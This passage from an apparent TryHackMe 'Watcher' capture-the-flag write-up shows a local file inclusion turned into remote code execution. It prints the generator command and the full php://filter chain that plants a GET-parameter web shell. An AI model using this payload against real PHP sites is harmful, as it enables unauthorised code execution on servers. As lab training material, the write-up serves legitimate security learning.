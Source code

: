 Great! Discovering a Local File Injection (LFI) vulnerability, I attempted to read interesting files like SSH keys but was unsuccessful. I proceeded to attempt Remote Code Execution (RCE) using a PHP filter chain. For this, I used the Python script from this <a href="https://github.com/synacktiv/php_filter_chain_generator">GitHub</a> and successfully executed the `id` command:

```bash
kali@kali:~/ctf/watcher$ python3 gen.py --chain '<?=`$_GET[0]`?>'                                                                                               
[+] The following gadget chain will generate the following code : <?=`$_GET[0]`?> (base64 value: PD89YCRfR0VUWzBdYD8+)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.
base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.
UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.
SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.
base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.
UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.
base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.
CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.
iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.
iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.
iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.
iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.
base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.
iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.
SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.
base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

![RCE](/assets/img/tryhackme/Watcher/thm_watcher_2.jpg)
